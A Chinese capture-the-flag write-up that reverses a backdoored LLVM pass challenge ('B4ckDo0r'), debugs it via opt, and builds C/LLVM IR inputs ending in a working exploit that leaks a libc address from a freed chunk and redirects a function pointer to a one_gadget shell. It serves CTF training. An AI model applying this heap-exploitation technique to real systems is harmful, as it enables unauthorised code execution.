








本文来分析几道题目，熟悉下LLVM pass pwn的解题流程。
国赛题，2022年也出了一道名字都一样的题，可见国赛还是很重视这类题型的。
这一题的附件很难找，笔者将其放在了自己的github 中，便于读者复现。
首先当然是使用IDA打开。发现符号表被抠了，不过我们还是有定位runOnFunction的方法。

由于我们有llvm的所有头文件源码，因此对于.so文件中llvm方法的调用，我们都可以找到相应的声明，有助于我们理解代码本身。
getName()的返回值是llvm::value对象的名字。需要注意的是，llvm::value是llvm中最重要的一个类，其可以代表一个常量、变量、指令或函数。这里可以看到如果对象的名字不是B4ckDo0r，则会直接退出不作处理。要想进行下面的处理，我们就必须要让一个函数的名字为B4ckDo0r。至于前面对rdx的判断，这应该也算是getName()函数的返回值，其表示的是对象名字的长度。显而易见，B4ckDo0r的长度为8，因此这里判断长度是否为8合情合理。
注：这里说明一下llvm pass类题目如何调试。
我们需要通过opt程序加载.so链接库，同时输入.ll文件以生成IR输出，因此应该调试opt这个程序（带参数的opt调试方式：gdb opt、r 参数, 参数,...），我们可以先对opt下一个在main开头的断点，保证其在一开始执行就能够中断，注意此时.so链接库并未被加载到内存中，本题的opt程序中在main函数有一堆函数调用，快速步过后经过某一条call指令可以发现.so库被加载，此时再下链接库的断点，继续执行就可以让程序断在我们想要调试的runOnFunction()函数了。这种方式是笔者自己探索出来的，比较麻烦，但由于这方面的资料实在太少，找不到现成的参考，只能先这样做了。如有更加简便的方法还请读者不吝赐教。
前面我们知道了只有名为B4ckDo0r的函数才能被优化，后面的代码错综复杂，手动地去一步步分析显然是不太现实的，我们重点关注一下程序中提到的字符串，看能不能找到一些流程控制的线索。
(line 175) if ( !(unsigned int)str_compare(&p_dest, "save") )(line 300) if ( (unsigned int)str_compare(&p_dest, "takeaway") )(line 444) if ( !(unsigned int)str_compare(&p_dest, "stealkey") )(line 469) if ( !(unsigned int)str_compare(&p_dest, "fakekey") )(line 517) if ( !(unsigned int)str_compare(&p_dest, "fakekey") )
我们很容易能够找到上面的几行语句，这里的save、takeaway等字符串显然是突破的关键所在。
经过调试发现，这里的&p_dest指的是函数中操作符的名字，如第一条语句调用printf函数时，操作符名即为printf。因此我们不仅要保证其函数名为B4ckDo0r，还要保证其中调用的函数名为上面五个字符串中的一个。
在save控制流程中，我们发现了这些代码，通过字符串可以猜测出这应该是报错信息，对于使用C语言程序正常生成的.ll文件，应该不会有这样的问题出现。因此在下面凡是看到跳转到这些label的代码，就统统都可以不看了，能够节省很多时间。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 v31 = n; v32 = malloc (0x18 uLL); v32[2 ] = byte_2040f8; byte_2040f8 = v32; v33 = (char *)src; memcpy (v32, src, v31); v34 = v32 + 1 ; v35 = (char *)v84[0 ]; memcpy (v34, v84[0 ], (size_t )v84[1 ]); if ( v35 != &v85 ) { operator delete (v35) v33 = (char *)src; } if ( v33 != v88 ) operator delete (v33) v66 = llvm::CallBase::getNumTotalBundleOperands ((llvm::CallBase *)(v6 - 24 )); if ( byte_2040f8 && !(-1431655765 * (unsigned int )((v15 + 24 * v65 - 24LL * v66 - (v8 - 24 * (unsigned __int64)(*(_DWORD *)(v8 + 20 ) & 0xFFFFFFF ))) >> 3 )) ) { byte_204100 = *byte_2040f8; } v76 = byte_204100; if ( *(_BYTE *)(*(_QWORD *)v75 + 16LL ) == 13 ) SExtValue = llvm::APInt::getSExtValue ((llvm::APInt *)(*(_QWORD *)v75 + 24LL )); else SExtValue = 0LL ; byte_204100 = v76 + SExtValue; *byte_2040f8 = v76 + SExtValue; if ( !(-1431655765 * (unsigned int )((v15 + 24 * v80 - 24LL * (unsigned int )llvm::CallBase::getNumTotalBundleOperands ((llvm::CallBase *)(v6 - 24 )) - (v8 - 24 * (unsigned __int64)(*(_DWORD *)(v8 + 20 ) & 0xFFFFFFF ))) >> 3 )) ) ((void (__fastcall *)(_QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD, _QWORD))*byte_2040f8)( 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL , 0LL ); } if ( p_dest != &dest ) operator delete (p_dest) v7 = v83;
注意save中的malloc函数，它分配了一个0x20大小的chunk到bss段中，随后进行了两次memcpy内存拷贝向里面写入了某些值，具体操作如何我们下面调试的时候再行分析。在takeaway中有一大堆的条件，但最终只有一个free，猜测是满足某些条件后会释放save中分配的chunk。在stealkey中将chunk地址保存到了另外一个位置，且这个位置就在保存chunk地址的位置的上面。在fakekey中将保存chunk地址的地方写入了某个值。在run中将保存chunk的地址作为一个函数指针执行。可见如果能够在保存chunk的地方写入one_gadget，就能够打通这道题了。
下面开始调试。
第一次测试代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 #include <stdio.h> void save () {printf ("123456" );}void takeaway () {printf ("654321" );}void stealkey () {printf ("abcdef" );}void fakekey () {printf ("fedcba" );}void run () {printf ("888888" );}int B4ckDo0r () { save(); takeaway(); stealkey(); fakekey(); run(); return 0 ; }
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 ; ModuleID = 'test.c' source_filename = "test.c" target datalayout = "e-m:e-p270:32:32-p271:32:32-p272:64:64-i64:64-f80:128-n8:16:32:64-S128" target triple = "x86_64-pc-linux-gnu" @.str = private unnamed_addr constant [7 x i8] c"123456\00", align 1 @.str.1 = private unnamed_addr constant [7 x i8] c"654321\00", align 1 @.str.2 = private unnamed_addr constant [7 x i8] c"abcdef\00", align 1 @.str.3 = private unnamed_addr constant [7 x i8] c"fedcba\00", align 1 @.str.4 = private unnamed_addr constant [7 x i8] c"888888\00", align 1 ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @save() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i64 0, i64 0)) ret void } declare dso_local i32 @printf(i8*, ...) #1 ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @takeaway() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.1, i64 0, i64 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @stealkey() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.2, i64 0, i64 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @fakekey() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.3, i64 0, i64 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @run() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.4, i64 0, i64 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local i32 @B4ckDo0r() #0 { %1 = alloca i32, align 4 store i32 0, i32* %1, align 4 call void @save() call void @takeaway() call void @stealkey() call void @fakekey() call void @run() ret i32 0 } attributes #0 = { noinline nounwind optnone uwtable "correctly-rounded-divide-sqrt-fp-math"="false" "disable-tail-calls"="false" "frame-pointer"="all" "less-precise-fpmad"="false" "min-legal-vector-width"="0" "no-infs-fp-math"="false" "no-jump-tables"="false" "no-nans-fp-math"="false" "no-signed-zeros-fp-math"="false" "no-trapping-math"="false" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "unsafe-fp-math"="false" "use-soft-float"="false" } attributes #1 = { "correctly-rounded-divide-sqrt-fp-math"="false" "disable-tail-calls"="false" "frame-pointer"="all" "less-precise-fpmad"="false" "no-infs-fp-math"="false" "no-nans-fp-math"="false" "no-signed-zeros-fp-math"="false" "no-trapping-math"="false" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+cx8,+fxsr,+mmx,+sse,+sse2,+x87" "unsafe-fp-math"="false" "use-soft-float"="false" } !llvm.module.flags = !{!0} !llvm.ident = !{!1} !0 = !{i32 1, !"wchar_size", i32 4} !1 = !{!"clang version 10.0.0-4ubuntu1 "}
在遍历到B4ckDo0r函数的save函数调用时，发现有一个判断条件通不过：if ( -1431655765 * (unsigned int)((v15 + 24 * v18 - 24 * (unsigned __int64)NumTotalBundleOperands - v20) >> 3) == 2 )
推测是函数返回值或参数类型不匹配的问题，于是开始了长时间的调试和修改。
这里发现使用clang-10生成的.ll文件丢到opt里面会报错，本题使用的clang版本为clang-8，解决方法是：apt install clang-8，然后使用clang-8生成.ll文件。
经过调试发现，上面的一长串语句的等号左边值为函数的参数个数。也就是说，save函数需要有两个参数。于是我们有了第二个测试代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 #include <stdio.h> void save (char * a, char * b) {printf ("123456" );}void takeaway () {printf ("654321" );}void stealkey () {printf ("abcdef" );}void fakekey () {printf ("fedcba" );}void run () {printf ("888888" );}int B4ckDo0r () { save("follow" , "helloworld" ); takeaway(); stealkey(); fakekey(); run(); return 0 ; }
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 ; ModuleID = 'test.c' source_filename = "test.c" target datalayout = "e-m:e-i64:64-f80:128-n8:16:32:64-S128" target triple = "x86_64-pc-linux-gnu" @.str = private unnamed_addr constant [7 x i8] c"123456\00", align 1 @.str.1 = private unnamed_addr constant [7 x i8] c"654321\00", align 1 @.str.2 = private unnamed_addr constant [7 x i8] c"abcdef\00", align 1 @.str.3 = private unnamed_addr constant [7 x i8] c"fedcba\00", align 1 @.str.4 = private unnamed_addr constant [7 x i8] c"888888\00", align 1 @.str.5 = private unnamed_addr constant [7 x i8] c"follow\00", align 1 @.str.6 = private unnamed_addr constant [11 x i8] c"helloworld\00", align 1 ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @save(i8*, i8*) #0 { %3 = alloca i8*, align 8 %4 = alloca i8*, align 8 store i8* %0, i8** %3, align 8 store i8* %1, i8** %4, align 8 %5 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i32 0, i32 0)) ret void } declare dso_local i32 @printf(i8*, ...) #1 ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @takeaway() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.1, i32 0, i32 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @stealkey() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.2, i32 0, i32 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @fakekey() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.3, i32 0, i32 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @run() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.4, i32 0, i32 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local i32 @B4ckDo0r() #0 { call void @save(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.5, i32 0, i32 0), i8* getelementptr inbounds ([11 x i8], [11 x i8]* @.str.6, i32 0, i32 0)) call void @takeaway() call void @stealkey() call void @fakekey() call void @run() ret i32 0 } attributes #0 = { noinline nounwind optnone uwtable "correctly-rounded-divide-sqrt-fp-math"="false" "disable-tail-calls"="false" "less-precise-fpmad"="false" "min-legal-vector-width"="0" "no-frame-pointer-elim"="true" "no-frame-pointer-elim-non-leaf" "no-infs-fp-math"="false" "no-jump-tables"="false" "no-nans-fp-math"="false" "no-signed-zeros-fp-math"="false" "no-trapping-math"="false" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+fxsr,+mmx,+sse,+sse2,+x87" "unsafe-fp-math"="false" "use-soft-float"="false" } attributes #1 = { "correctly-rounded-divide-sqrt-fp-math"="false" "disable-tail-calls"="false" "less-precise-fpmad"="false" "no-frame-pointer-elim"="true" "no-frame-pointer-elim-non-leaf" "no-infs-fp-math"="false" "no-nans-fp-math"="false" "no-signed-zeros-fp-math"="false" "no-trapping-math"="false" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+fxsr,+mmx,+sse,+sse2,+x87" "unsafe-fp-math"="false" "use-soft-float"="false" } !llvm.module.flags = !{!0} !llvm.ident = !{!1} !0 = !{i32 1, !"wchar_size", i32 4} !1 = !{!"clang version 8.0.1-9 (tags/RELEASE_801/final)"}
经过调试发现，对于上面有两个参数的save函数，.so库中的方法将其传入的函数的两个实参的内容拷贝到了一个chunk中，这是两个memcpy函数干的事情。之后的两个判断条件也是直接绕过，没有执行delete。
而第二条调用takeaway的语句的识别中，也有一个关于参数个数的判断：if ( -1431655765 * (unsigned int)((v15 + 24 * v38 - 24 * (unsigned __int64)v39 - v40) >> 3) != 1 )
于是有第三个测试代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 #include <stdio.h> void save (char * a, char * b) {printf ("123456" );}void takeaway (char * a) {printf ("654321" );}void stealkey () {printf ("abcdef" );}void fakekey () {printf ("fedcba" );}void run () {printf ("888888" );}int B4ckDo0r () { save("follow" , "helloworld" ); takeaway("colin" ); stealkey(); fakekey(); run(); return 0 ; }
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 ; ModuleID = 'test.c' source_filename = "test.c" target datalayout = "e-m:e-i64:64-f80:128-n8:16:32:64-S128" target triple = "x86_64-pc-linux-gnu" @.str = private unnamed_addr constant [7 x i8] c"123456\00", align 1 @.str.1 = private unnamed_addr constant [7 x i8] c"654321\00", align 1 @.str.2 = private unnamed_addr constant [7 x i8] c"abcdef\00", align 1 @.str.3 = private unnamed_addr constant [7 x i8] c"fedcba\00", align 1 @.str.4 = private unnamed_addr constant [7 x i8] c"888888\00", align 1 @.str.5 = private unnamed_addr constant [7 x i8] c"follow\00", align 1 @.str.6 = private unnamed_addr constant [11 x i8] c"helloworld\00", align 1 @.str.7 = private unnamed_addr constant [6 x i8] c"colin\00", align 1 ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @save(i8*, i8*) #0 { %3 = alloca i8*, align 8 %4 = alloca i8*, align 8 store i8* %0, i8** %3, align 8 store i8* %1, i8** %4, align 8 %5 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str, i32 0, i32 0)) ret void } declare dso_local i32 @printf(i8*, ...) #1 ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @takeaway(i8*) #0 { %2 = alloca i8*, align 8 store i8* %0, i8** %2, align 8 %3 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.1, i32 0, i32 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @stealkey() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.2, i32 0, i32 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @fakekey() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.3, i32 0, i32 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local void @run() #0 { %1 = call i32 (i8*, ...) @printf(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.4, i32 0, i32 0)) ret void } ; Function Attrs: noinline nounwind optnone uwtable define dso_local i32 @B4ckDo0r() #0 { call void @save(i8* getelementptr inbounds ([7 x i8], [7 x i8]* @.str.5, i32 0, i32 0), i8* getelementptr inbounds ([11 x i8], [11 x i8]* @.str.6, i32 0, i32 0)) call void @takeaway(i8* getelementptr inbounds ([6 x i8], [6 x i8]* @.str.7, i32 0, i32 0)) call void @stealkey() call void @fakekey() call void @run() ret i32 0 } attributes #0 = { noinline nounwind optnone uwtable "correctly-rounded-divide-sqrt-fp-math"="false" "disable-tail-calls"="false" "less-precise-fpmad"="false" "min-legal-vector-width"="0" "no-frame-pointer-elim"="true" "no-frame-pointer-elim-non-leaf" "no-infs-fp-math"="false" "no-jump-tables"="false" "no-nans-fp-math"="false" "no-signed-zeros-fp-math"="false" "no-trapping-math"="false" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+fxsr,+mmx,+sse,+sse2,+x87" "unsafe-fp-math"="false" "use-soft-float"="false" } attributes #1 = { "correctly-rounded-divide-sqrt-fp-math"="false" "disable-tail-calls"="false" "less-precise-fpmad"="false" "no-frame-pointer-elim"="true" "no-frame-pointer-elim-non-leaf" "no-infs-fp-math"="false" "no-nans-fp-math"="false" "no-signed-zeros-fp-math"="false" "no-trapping-math"="false" "stack-protector-buffer-size"="8" "target-cpu"="x86-64" "target-features"="+fxsr,+mmx,+sse,+sse2,+x87" "unsafe-fp-math"="false" "use-soft-float"="false" } !llvm.module.flags = !{!0} !llvm.ident = !{!1} !0 = !{i32 1, !"wchar_size", i32 4} !1 = !{!"clang version 8.0.1-9 (tags/RELEASE_801/final)"}
进入调试后发现在takeaway中某处会产生段错误，原因不明。暂且删除takeaway的调用，跳过。
在stealkey中，发现在语句byte_204100 = *key_chunk;（key_chunk就是.so中偏移0x2040F8的位置）执行前，之前save创建的chunk中保存的是一个chunk的地址，里面有save函数的两个实参的值。然后stealkey将这个chunk中的前8字节取了出来保存。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 #include <stdio.h> void save (char * a, char * b) {printf ("123456" );}void takeaway (char * a) {printf ("654321" );}void stealkey () {printf ("abcdef" );}void fakekey (char * a) {printf ("fedcba" );}void run () {printf ("888888" );}int B4ckDo0r () { save("follow" , "helloworld" ); stealkey(); fakekey("colin" ); run(); return 0 ; }
经调试发现，fakekey中关键操作前面的判断通不过，对关键地址没有任何影响：
1 2 3 4 if ( *(_BYTE *)(*(_QWORD *)v75 + 16LL ) == 13 ) SExtValue = llvm::APInt::getSExtValue ((llvm::APInt *)(*(_QWORD *)v75 + 24LL )); else SExtValue = 0LL ;
由于getSExtValue的含义是get signed extended value，获得有符号扩展的数，推测与参数有关，既然是数，猜测参数对类型有要求：必须是一个整数。于是修改了fakekey的参数类型，再次尝试。

现在我们已知能够控制一个函数指针的值。本题给出的libc是2.27版本，可以使用one_gadget工具获取one_gadget，在此之后还有一个问题：如何获取libc的基地址并保存到这个地址中？要知道，我们能够任意修改key_chunk中值的唯二的方法是：①通过save函数的第一个参数修改；②通过fakekey函数的第一个参数修改。但是别忘了，key_chunk保存的是一个chunk指针，既然是chunk就有可能分配到原来是free chunk的chunk。如果这原来是一个unsorted bin chunk，那么fd指针处保存的不就正是main_arena处的地址吗？如果我们将save函数的第一个参数设置为’\x00’，由于memcpy函数拷贝的长度是根据字符串的长度来计算，因此save函数此时就不会覆盖这里的地址值，我们也就能够获取到main_arena中的地址了。以此为基础使用fakekey函数加上一个值让它指向one_gadget，这不就成了吗？

在给出的libc中，main_arena的偏移为0x3EBC40，unsorted bin的链表头地址为0x3EBCB0。以下面的libc来计算偏移。当然由于笔者是在ubuntu 20.04上面调试，因此使用本机的libc计算偏移，看看能不能在2.31的环境下打通。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 #include <stdio.h> void save (char * a, char * b) {printf ("123456" );}void takeaway (char * a) {printf ("654321" );}void stealkey () {printf ("abcdef" );}void fakekey (long long a) {printf ("fedcba" );}void run () {printf ("888888" );}int B4ckDo0r () { save("colin" , "colin" ); save("colin" , "colin" ); save("colin" , "colin" ); save("colin" , "colin" ); save("colin" , "colin" ); save("colin" , "colin" ); save("colin" , "colin" ); save("\x00" , "colin" ); stealkey(); fakekey(-0x1090F2 ); run(); return 0 ; }

成功getshell。
历经艰难困苦，这道题总算是做出来了（这篇文章是笔者花了三天时间才写出来的）。通过本题我们需要注意一些关键函数的使用和一些条件控制信息的识别，就如上面提到的调用什么函数说明可能要进行参数个数的检查，调用上面函数说明可能对参数的类型有要求等等。当然做这类题目也是对我们逆向C++程序能力的训练，值得仔细深究。